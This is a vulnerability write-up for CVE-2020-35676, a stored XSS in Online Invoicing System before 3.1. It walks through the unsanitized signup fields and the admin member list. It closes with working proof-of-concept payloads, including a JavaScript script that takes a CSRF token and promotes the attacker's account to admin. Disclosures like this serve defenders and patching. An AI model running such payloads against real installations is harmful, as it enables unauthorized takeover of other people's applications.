 ```yaml
---
layout: post
title: CVE-2020-35676
tags: [CVE-Writeup, XSS]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.1
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Stored XSS
CVE ID: CVE-2020-35676
```

# Introduction

Online Invoicing System fails to correctly sanitize user input when a user registers using the self-registration functionality. As such, an attacker can input a specially crafted payload that will execute upon the application's administrator browsing the registered user's list. Once the arbitrary Javascript is executed in the context of the admin, this will cause the attacker to gain administrative privileges therefore effectively leading into an application takeover.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

In order to allow user's to self-register, the following pre-requisites need to be met:

1. Sign up has to be enabled in `admin/pageSettings.php` (enabled by default during a fresh install.) 
2. Custom group has to be created which would contain the self-signed up users. 

Upon these two pre-reqs being met, a user is able to self-register by browsing to `http://localhost/membership_signup.php`.

When registering, a user sees the following fields:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fields.png)

The majority fields are optional apart from:

~~~
Username
Password
Confirm Password
Email
Group
~~~

Let's take a peek in the code to see what happens to the values of these fields after this information is passed to the server.

`app/membership_signup.php`:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fieldsbackend.png)

As shown on Lines 3-11 above, multiple variables are initialized with the values of the user-input after being passed into various functions. Then on Lines 14-32, the data is validated to ensure the username does not exist, the passwords match, etc. Finally on Line 37, a SQL query is crafted using the user input and executed thus storing the registered user's information in the database.

However Lines 8-11, look very interesting:

~~~
$custom1 = makeSafe($_POST['custom1']);
$custom2 = makeSafe($_POST['custom2']);
$custom3 = makeSafe($_POST['custom3']);
$custom4 = makeSafe($_POST['custom4']);
~~~

The lines above take the values that are passed into each respective parameter that starts with the name "custom". Looking at the HTML of the sign-up form, we can confirm these correspond with the optional fields: 

~~~
Full Name
Address
City 
State
~~~


What's most interesting here is that before these values are initialized with their respective variable, the values are first passed into the `makeSafe()` function. The `makeSafe()` function is dissected in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, the `makeSafe()` function is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

So while the `makeSafe()` function may help prevent SQL Injection attacks, it has no role in sanitizing HTML. As no HTML characters are being sanitized, the database is directly storing the HTML payloads unharmed. 

While this is a red flag, it is not appropriate to jump to conclusions as there could be additional functionality which sanitizes the value stored in the database before reflecting it onto the page.

To confirm this, we can take a look at the code which is responsible for displaying these values to the administrator.

**admin/pageViewMembers.php**:
![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/reflectme.png)

As shown on Line 1, a SQL query is executed to retrieve the values of the following columns:

~~~
m.memberID - Column 0
g.name - Column 1
m.signupDate - Column 2
m.custom1 - Column 3
m.custom2 - Column 4
m.custom3 - Column 5
m.custom4 - Column 6
...
~~~

On Line 2, a while loop is used to iterate over the values of each column. The index here corresponds with the index of the columns being listed above such as `$row[0]` being the memberID (m.memberID), `$row[1]` being the group name (g.name) and so on.

With this in mind, this means that the values of the custom fields will be stored in:

~~~
$row[3] // Full Name
$row[4] // Address
$row[5] // City
$row[6] // State
~~~

Finally each of these values are passed into the `thisOr()` function in which the returned value is directly reflected on to the page:

~~~php
<td class="text-left"><?php echo thisOr($row[1]); ?></td>
<td class="text-left"><?php echo thisOr($row[2]); ?></td>
<td class="text-left"><?php echo thisOr($row[3]); ?></td>
<td class="text-left"><?php echo thisOr($row[4]); ?></td>
<td class="text-left"><?php echo thisOr($row[5]); ?></td>
<td class="text-left"><?php echo thisOr($row[6]); ?></td>
<td class="text-left">
    <?php echo (($row[7] && $row[8]) ? $Translation['Banned'] : ($row[8] ? $Translation['active'] : $Translation['waiting approval'] )); ?>
</td>
~~~

Let's take a quick peek into the `thisOr()` function as it is the last step between successful exploitation as it may be the function which could be responsible for sanitizing the items.

**admin/incFunctions.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/thisor.png)

As shown above, the `thisOr()` function performs a simple ternary operation which checks if the value of the parameter passed to it is empty. If the value is not empty, it is returned as is. However if the value is empty, a non-breaking space HTML entity is returned.

Since `thisOr()` was the final thing standing between succesful exploitation and not, we can now confirm that the application is indeed vulnerable to Stored Cross-Site Scripting as the application fails to sanitize the user-input for any HTML special characters which can lead to exploitation.

With this in mind, an attacker is able to use Javascript to craft a payload which would grant their account the highest privileges offered by the application. After sending the payload when creating a new user, an attacker will need to wait until the application's administrator browses to the user list which would therefore execute the payload. As the payload is executed in the context of the application, the Same Origin Policy is therefore bypassed and an attacker is able to effectively takeover the application.

# Proof of Concept

Basic:

```
Full Name - <img src=/ onerror=alert(1)>
Address - <img src=/ onerror=alert(2)>
City - <img src=/ onerror=alert(3)>
State - <img src=/ onerror=alert(4)>
```

Bypass SOP and grant yourself admin rights:

```javascript
// add-admin.js
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php?saved=1&memberID=attacker";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=attacker&memberID=attacker&password=&confirmPassword=&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=testing&custom2=123+Fake+St&custom3=London&custom4=New+York&comments=Test&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
```

**Replace**:
The values of `oldMemberID` and `memberID` with your respective username.

